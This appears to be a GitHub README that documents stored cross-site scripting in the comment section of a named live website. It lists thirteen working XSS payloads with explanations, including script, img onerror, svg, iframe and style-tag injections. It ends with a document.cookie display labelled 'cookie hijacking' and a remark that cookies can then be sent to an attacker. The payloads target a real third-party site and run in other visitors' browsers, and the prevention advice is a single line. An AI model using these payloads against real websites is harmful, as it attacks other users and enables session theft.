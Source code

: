 # Website Link : https://chorus.selfmade.chat

This website is vulnerable in XSS(Cross-Site Scripting).The user input from the comment section is not validated and sanitized.Due to that, XSS scripts(Javascript codes in usual) can be included in the comments.

# XSS(Cross-Site Scripting) Vulnerability Experiment

## Overview

This section documents the XSS vulnerabilities identified in the website [https://chorus.selfmade.chat/]. The vulnerabilities allow unauthorized access to the database, potentially leading to data exposure and manipulation.

## XSS payloads

PLEASE DELETE A COMMENT AFTER THE EXECUTIONS OF THIS COMMENT.WHICH AFFECT THE ANOTHER USER AND YOUR EXPRIENCE.

### 1. Simple Script Alert:
```HTML
<script>alert(\'SCRIPT ALERT\');</script>
```
Explanation: This payload injects a <script> tag directly into the HTML. When the browser encounters this tag, it executes the JavaScript code inside, causing an alert box to pop up with the message "SCRIPT ALERT".

NOTE : the backslash (\) before the single quote (') inside the string tells the interpreter to treat it as a literal character rather than the end of the string.Because comments are passes through the query to save in database, without using backslash causes error and stop the execution of webpage 

### 2. Image Tag with JavaScript:
```HTML
<img src="x" onerror="alert(\'HACKED\')">
```
Explanation: This payload uses an <img> tag with a broken src attribute (x). The onerror attribute specifies JavaScript code to run if an error occurs while loading the image. In this case, it triggers an alert with the message "HACKED".

### 3. Anchor Tag with JavaScript:
```HTML
<a href="javascript:alert(\'YOUR DEVICE IS HACKED\')">Click me</a>
```
Explanation: This payload uses an <a> (anchor) tag with an href attribute set to a JavaScript URI. When the user clicks the link, the browser executes the JavaScript code, causing an alert with the message "YOUR DEVICE IS HACKED".

### 4. Event Handler in a Div:
```HTML
<div onmouseover="alert(\'Do not Touch me\')">Hover over me</div>
```
Explanation: This payload uses a <div> tag with an onmouseover event handler. When the user hovers over the div, the browser executes the JavaScript code, causing an alert with the message "Do not Touch me".

### 5. Body Tag with Onload Event:
```HTML
<body onload="alert(\'DELETE ME\')">
```
Explanation: This payload uses the <body> tag with an onload event handler. When the page loads, the browser executes the JavaScript code, causing an alert with the message "DELETE ME".

### 6. Encoded Characters:
```HTML
<svg onload=alert(\'SVG loaded\')>
```
Explanation: This payload uses an <svg> (Scalable Vector Graphics) tag with an onload event handler. When the SVG is loaded, the browser executes the JavaScript code, causing an alert with the message "SVG loaded".

### 7. Input Field with JavaScript:
```HTML
<input type="text" value="TEXT" onfocus="alert(\'YOU CAN NOT OVERWRITE\')">
```
Explanation: This payload uses an <input> tag with an onfocus event handler. When the user focuses on the input field (e.g., clicks on it), the browser executes the JavaScript code, causing an alert with the message "YOU CAN NOT OVERWRITE".

Note : After execution of this comment, if you receive alert message continously just reload the page.

#### Preventing Continuous Alerts:

You can change the focus to another element after showing the alert:
```HTML
<input type="text" value="TEXT" onfocus="alert(\'YOU CAN NOT OVERWRITE\'); this.blur();">
```

### 8. Malicious URL:
```HTML
<a href="https://fruits.selfmade.solutions" onclick="alert(\'Are you sure?\')">Malicious Link</a>
```
Explanation: This payload uses an <a> (anchor) tag with an onclick event handler. When the user clicks the link, the browser executes the JavaScript code, causing an alert with the message "Are you sure?".

### 9. Textarea Tag:
```HTML
<textarea onfocus="alert(\'YOU CAN NOT OVERWRITE\')">Focus on me</textarea>
```
Explanation: This payload uses a <textarea> tag with an onfocus event handler. When the user focuses on the textarea (e.g., clicks on it), the browser executes the JavaScript code, causing an alert with the message "YOU CAN NOT OVERWRITE".

Note : After execution of this comment, if you receive alert message continously just reload the page.

#### Preventing Continuous Alerts:

You can change the focus to another element after showing the alert:
```HTML
<textarea onfocus="alert(\'YOU CAN NOT OVERWRITE\'); this.blur();">Focus on me</textarea>
```

### 10. Iframe Tag:
```HTML
<iframe src="javascript:alert(\'New Website availble in comment\')"></iframe>
```
Explanation: This payload uses an <iframe> tag with a src attribute set to a JavaScript URI. When the iframe loads, the browser executes the JavaScript code, causing an alert with the message "New Website availble in comment".

### 11. Style Tag with JavaScript:
```HTML
<style>body{background:url("javascript:alert(\'Background Hacked\')");}</style>
```
Explanation: This payload uses a <style> tag to inject CSS that sets the background of the <body> to a JavaScript URI. When the browser parses the CSS, it executes the JavaScript code, causing an alert with the message "Background Hacked".

### 12. SVG with Embedded JavaScript:
```HTML
<svg><script>alert(\'SVG executed\')</script></svg>
```
Explanation: This payload uses an <svg> tag to embed an <script> tag. When the SVG is loaded, the browser executes the JavaScript code inside the <script> tag, causing an alert with the message "SVG executed".

### 13. COOKIE HIJACKING:
```HTML
 <script>alert(document.cookie)</script>
```
Explaination: This payload injects a <script> tag directly into the HTML. When the browser encounters this tag, it executes the JavaScript code inside, will display all the cookies stored by the site in an alert box.Then the cookies can be sent to the attacker's device in many ways.

## XSS Prevention

To protect your application from XSS vulnerabilities, always sanitize and validate a user inputs.
